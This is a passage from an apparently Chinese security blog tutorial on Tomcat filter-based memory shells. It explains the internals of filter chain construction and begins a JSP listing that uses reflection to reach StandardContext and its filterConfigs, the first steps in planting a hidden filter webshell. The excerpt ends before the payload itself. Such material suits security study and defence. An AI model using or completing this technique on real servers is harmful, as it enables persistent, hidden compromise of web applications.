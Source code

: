 
从wrapper中去除了StandardContext上下文对象，然后把FilterMaps数据拿到，然后做了一个判断，如果符合这两个条件的话就从context中把filterConfig查出来，filterConfig其实就是Filter的实例，最后把filterConfig添加到filterChain这个调用链中。


* matchDispatcher
	+ filterMap：从context中取出的参数
	+ dispatcher：从request.getAttribute(org.apache.catalina.core.DISPATCHER\_TYPE)取出的数据，其实就是个枚举值


![image-20241129143213797](https://images.cnblogs.com/cnblogs_com/erosion2020/2433670/o_241129084021_filter_shell8.png)


所以，梳理一下debug过程中相关的数据结构：


* FilterDefs：存放FilterDef的数组 ，FilterDef 中存储着我们过滤器名，过滤器实例，作用 url 等基本信息
* FilterConfigs：存放filterConfig的数组，在 FilterConfig 中主要存放 FilterDef 和 Filter对象等信息
* FilterMaps：存放FilterMap的数组，在 FilterMap 中主要存放了 FilterName 和 对应的URLPattern
* FilterChain：过滤器链，该对象上的 doFilter 方法能依次调用链上的 Filter
* ContextConfig：Web应用的上下文配置类
* StandardContext：Context接口的标准实现类，一个 Context 代表一个 Web 应用，其下可以包含多个 Wrapper
* StandardWrapperValve：一个 Wrapper 的标准实现类，一个 Wrapper 代表一个Servlet


然后放一个大佬画的filter工作的流程图


![filter_shellxx](https://images.cnblogs.com/cnblogs_com/erosion2020/2433670/o_241129084021_filter_shell9.png)


## Filter内存马代码



```
<%--
  Created by IntelliJ IDEA.
  User: 15137
  Date: 2024/11/29
  Time: 14:33
  To change this template use File | Settings | File Templates.
--%>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.util.Map" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>

<%
    final String name = "y4tacker";
    ServletContext servletContext = request.getSession().getServletContext();

    Field appctx = servletContext.getClass().getDeclaredField("context");
    appctx.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);

    Field stdctx = applicationContext.getClass().getDeclaredField("context");
    stdctx.setAccessible(true);
    StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);

    Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");
    Configs.setAccessible(true);
```